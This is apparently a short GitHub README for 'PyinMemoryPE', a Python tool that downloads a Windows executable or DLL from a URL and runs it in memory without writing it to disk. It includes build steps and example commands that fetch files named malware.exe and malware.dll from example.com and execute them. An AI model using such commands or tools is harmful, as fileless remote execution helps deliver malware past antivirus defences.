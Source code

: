 Greetings
------------

# PyinMemoryPE
execute any PE (dll,exe) in memory filelessly


# usage

pyMemory.py < url> < TYPe >

# build into exe

use pyinstaller or nuitka and build pymemory.py

or use the prebuilt exe in ./output 

# example

exe : PyexecMemory.exe http://example.com/malware.exe EXE 

dll: PyexecMemory.exe http://example.com/malware.dll DLL --Method DLLRegisterServer

# Check form more info

https://github.com/naksyn/PythonMemoryModule

https://www.joachim-bauch.de/tutorials/loading-a-dll-from-memory/
